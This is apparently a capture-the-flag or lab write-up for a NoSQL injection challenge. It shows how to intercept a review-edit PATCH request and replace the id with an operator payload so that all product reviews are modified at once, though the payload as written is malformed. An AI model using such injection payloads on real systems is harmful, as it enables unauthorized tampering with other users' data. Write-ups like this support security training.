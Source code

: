 # NoSQLManipulation

This challenge involves exploiting a NoSQL injection vulnerability to update multiple product reviews simultaneously in a NoSQL database.

First we need to log in as a admin, and click one of the reviews and try to edit it. Change the string(whatever) and turn on your intercept. You will see the PATCH request from this website like this.

```bash
PATCH /rest/products/reviews HTTP/1.1
Host: localhost:3000

{
  "id": "specific_review_id",
  "message": "updated_review_text"
}
```

![alt text](<img/Screenshot (24).png>)

Change the id into like this `"id": {"$ne:null"}` and send it, We will saw all the reviews

![alt text](<img/Screenshot (25).png>)

Solved!

![alt text](<img/Screenshot (26).png>)